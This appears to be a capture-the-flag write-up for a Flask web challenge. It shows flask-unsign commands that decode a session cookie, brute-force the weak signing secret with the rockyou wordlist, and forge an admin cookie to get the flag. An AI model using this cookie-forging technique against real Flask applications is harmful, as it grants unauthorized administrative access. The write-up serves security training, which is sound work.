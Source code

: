# GHCTF-FLASh-challenge

## Challenge Description

**Name:** FLASh

**Points:** 455

**Description:** FLASh FLASh ...f denia Kifou maKech.

**Challenge link:** [FLASh challenge link](http://greenhat.microclub.info:5620/login)

**Goal:** Gain admin access by manipulating the JWT token.

## Tools and Techniques

**Tools:** flask-unsign, JSON Web Tokens (JWT) Decoder

**Techniques:**

- JWT decoding and encoding
- Brute-forcing secret key
- Cookie manipulation

## Solution

### Initial Approach

**Step 1:** Inspected the webpage and found a JWT token in the cookies.

**Step 2:** Decoded the JWT token using an online JWT decoder.

Decoded JWT:

```
{

'admin': False,

'username': 'guest'

}
```

**Step 3:** Tried to modify the payload directly and replace the token, but it was rejected by the server due to an invalid signature.

### Detailed Solution

- **Step 1:** Identify the need to brute-force the secret key.
  
  Based on the challenge hint "FLASh", it suggested the use of the Flask framework, which uses a secret key to sign tokens.

- **Step 2:** Install flask-unsign.

  Open Cmd and run:

  ```pip install flask-unsign```

- **Step 3:** Decode the JWT using flask-unsign.
  
  Command :

  ```flask-unsign --decode --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Decoded JWT :

  `{'admin': False, 'username': 'guest'}`
  
- **Step 4 :** Download the [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).
  
- **Step 5:** Use flask-unsign to brute-force the JWT using the rockyou.txt wordlist.

  **Initial Attempt to Brute-force the Secret Key:**
  
   Command :

  ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc"```

   Result: Encountered an error indicating the need to use the --no-literal-eval argument.

   **Retrying with the Correct Argument:**

   Command : 

   ```flask-unsign --unsign --wordlist "C:\Users\PC\Desktop\rockyou.txt" --cookie "eyJhZG1pbiI6ZmFsc2UsInVzZXJuYW1lIjoiZ3Vlc3QifQ.ZqOMzQ.SpPqBdMSQC6ojJADF2OrON3DVbc" --no-literal-eval```

   This successfully brute-forced the secret key, avoiding the previous error. Secret key : `'helloall'`

- **Step 6:** Create a new token with the admin changed to "True"

   Command :

   ```flask-unsign --sign --cookie "{'admin': True, 'username': 'guest'}" --secret 'helloall'```

   New Token :

   ```eyJhZG1pbiI6dHJ1ZSwidXNlcm5hbWUiOiJndWVzdCJ9.ZqOYOw.6hfVRtWwsvQVfCg8kSkCDxQZkWU```

- **Step 7:** Replace the original token in the browser’s cookies with the new token.
  
- **Step 8:** Reload the webpage to verify admin access.

   Successfully logged in as an admin and obtained the flag.

**The Flag:**

## microCTF{54y_H3ll0_0nLy_t0_Y0ur_Fr13nd5_H!h!h4}
  

  

